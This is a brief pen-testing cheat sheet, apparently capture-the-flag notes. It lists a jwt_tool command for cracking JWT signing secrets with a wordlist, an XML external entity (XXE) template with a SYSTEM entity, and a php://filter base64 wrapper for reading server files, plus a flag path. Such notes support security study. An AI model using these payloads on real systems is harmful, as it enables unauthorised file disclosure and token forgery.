 # pen-tester handbook
# python3 jwt_tool.py -t URL -rc TOKEN -C -d WORDLIST

# xml usage template
# <?xml version="1.0" encoding="ISO-8859-1"?>
# <!DOCTYPE [name] [
# <!ELEMENT [name] ANY>
# <!ENTITY [entityName] SYSTEM "command">
# ]>
# <name> &entityName; </name>
# template of php filters: 
php://filter/convert.base64-encode/resource= RES
# default path to web folder
/var/www/html/flag
